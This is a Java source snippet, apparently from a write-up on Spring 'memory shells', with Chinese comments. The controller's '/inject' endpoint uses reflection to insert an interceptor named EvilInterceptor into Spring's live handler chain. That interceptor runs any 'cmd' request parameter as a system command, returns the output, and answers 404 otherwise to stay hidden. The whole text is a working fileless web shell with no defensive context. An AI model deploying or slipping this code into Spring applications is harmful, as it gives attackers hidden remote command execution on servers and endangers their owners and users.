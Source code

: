 ```java
 */
@Controller
public class InterceptorController {

    @ResponseBody
    @RequestMapping("/inject")
    public void InterceptorInject() throws Exception{
        // 获取上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 获取adaptedInterceptors属性
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        Field adaptedInterceptorsField = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        adaptedInterceptorsField.setAccessible(true);
        ArrayList<Object> adaptedInterceptors = (ArrayList<Object>)adaptedInterceptorsField.get(abstractHandlerMapping);
        // 添加evilInterceptor
        EvilInterceptor evilInterceptor = new EvilInterceptor();
        adaptedInterceptors.add(evilInterceptor);

    }

    public class EvilInterceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            try{
                String cmd = request.getParameter("cmd");
                if(cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes,0,a);
                    }
                    response.getWriter().write(new String(bao.toByteArray()));
                }else {
                    response.sendError(404);
                }
                return true;
            }catch (Exception e){
                e.printStackTrace();
            }
            return false;
        }
    }
}
```
